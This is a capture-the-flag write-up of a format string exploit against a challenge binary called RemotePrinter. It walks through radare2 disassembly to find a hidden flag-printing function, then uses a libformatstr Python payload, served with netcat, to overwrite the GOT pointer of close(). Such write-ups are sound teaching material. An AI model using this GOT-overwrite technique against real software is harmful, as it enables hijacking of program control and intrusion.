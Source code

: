 ## Solved by barrebas and superkojiman

This was a relatively easy one that barrebas and I solved at the same time. Let's examine the vulnerability first. We're given a binary called RemotePrinter. Running it prompts us for an IP address and a port to connect to, after which it waits to receive data from the "printer". We can simulate the printer using netcat and send back some data. In this case, we found that it was vulnerable to a format string attack:

```
# ./RemotePrinter 
This is a remote printer!
Enter IPv4 address:127.0.0.1
Enter port:6666
Thank you, I'm trying to print 127.0.0.1:6666 now!
AAAA.0xffa7179c.0x2000.(nil).(nil).(nil).(nil).0x41414141.0x2e70252e.0x252e7025.0x70252e70
```

It's clear that our format string can be found at offset 7. The simple solution was to overwrite a function's GOT pointer with one that we wanted. A closer examination of the binary revealed a file called "flag.txt" in the string dump:

```
[0x08048ad0]> iz
.
.
.
vaddr=0x080489de paddr=0x000009de ordinal=008 sz=9 len=8 section=.rodata type=ascii string=flag.txt
vaddr=0x080489e7 paddr=0x000009e7 ordinal=009 sz=15 len=14 section=.rodata type=ascii string=YAY, FLAG: %s\n
```

Where's this being referenced from?

```
[0x00000000]> axt 0x080489de
data 0x8048875 push str.flag.txt in unknown function
```

Some function that wasn't being called by anything. Digging deeper:

```
[0x00000000]> pd@0x8048875
            0x08048875      68de890408     push str.flag.txt           ; "flag.txt" @ 0x80489de
            0x0804887a      e8e1fcffff     call sym.imp.fopen
            0x0804887f      83c410         add esp, 0x10
            0x08048882      8945f4         mov dword [ebp - 0xc], eax
            0x08048885      83ec04         sub esp, 4
            0x08048888      ff75f4         push dword [ebp - 0xc]
            0x0804888b      6a32           push 0x32                   ; '2'
            0x0804888d      8d45c2         lea eax, [ebp - 0x3e]
            0x08048890      50             push eax
            0x08048891      e85afcffff     call sym.imp.fgets
            0x08048896      83c410         add esp, 0x10
            0x08048899      83ec0c         sub esp, 0xc
            0x0804889c      ff75f4         push dword [ebp - 0xc]
            0x0804889f      e85cfcffff     call sym.imp.fclose
            0x080488a4      83c410         add esp, 0x10
            0x080488a7      83ec08         sub esp, 8
            0x080488aa      8d45c2         lea eax, [ebp - 0x3e]
            0x080488ad      50             push eax
            0x080488ae      68e7890408     push str.YAY__FLAG:__s_n    ; "YAY, FLAG: %s." @ 0x80489e7
            0x080488b3      e828fcffff     call sym.imp.printf
            0x080488b8      83c410         add esp, 0x10
            0x080488bb      90             nop
            0x080488bc      c9             leave
            0x080488bd      c3             ret
```

The summarize the above function. Basically this function opens "flag.txt", reads the contents, and prints it back out to stdout. We can find where the function starts by subtracting some bytes from 0x808875 and looking for the function prologue:

```
[0x00000200]> pd -10@0x8048875
|           0x0804885c      e85ffdffff     call sym.imp.close
|           0x08048861      83c410         add esp, 0x10
|           0x08048864      90             nop
|           ; JMP XREF from 0x08048842 (fcn.08048786)
|           ; JMP XREF from 0x08048813 (fcn.08048786)
|           ; JMP XREF from 0x080487b9 (fcn.08048786)
|           0x08048865      c9             leave
\           0x08048866      c3             ret
            0x08048867      55             push ebp
            0x08048868      89e5           mov ebp, esp
            0x0804886a      83ec48         sub esp, 0x48
            0x0804886d      83ec08         sub esp, 8
            0x08048870      68dc890408     push 0x80489dc
```

There it is, 0x08048867. Now the format string bug occurs after it receives data from the printer, and calls printf() on it. This happens here: 

```
|    |||    0x0804884d      50             push eax                     ; buf
|    |||    0x0804884e      e88dfcffff     call sym.imp.printf          ; printf(buf)
|    |||    0x08048853      83c410         add esp, 0x10
|    |||    0x08048856      83ec0c         sub esp, 0xc
|    |||    0x08048859      ff75f4         push dword [ebp - 0xc]
|    |||    0x0804885c      e85ffdffff     call sym.imp.close           ; close()
```

Since close() is called right after printf(), it was a good candidate for overwriting. The goal was to overwrite close()'s GOT pointer to point to 0x08048867, which would print out the flag. 


### superkojiman's solution
I accomplished this with [libformatstr](https://github.com/hellman/libformatstr): 

```python
#!/usr/bin/env python

from libformatstr import *

win_addr = 0x8048867
close_got = 0x08049c80

p = FormatStr(100)
p[close_got] = win_addr

buf = ""
buf += p.payload(7)
open("in.txt", "w").write(buf)
```

This creates a file with the payload necessary to do the overwrite. I ran a netcat instance on my VPS that would feed this payload to RemotePrinter.

```
root@vps:~# nc -lvp 6666 < in.txt
listening on [any] 6666 ...
```

I then connected to it from the CTF's RemotePrinter: 

```
# nc 188.166.133.53 12377
This is a remote printer!
Enter IPv4 address:192.99.xxx.xxxx
Enter port:6666
Thank you, I'm trying to print 192.99.xxx.xxx:6666 now!
.
.
.
  AAA������������������������������������������������������������������YAY, FLAG: IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}
``` 

Win! The flag is IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}
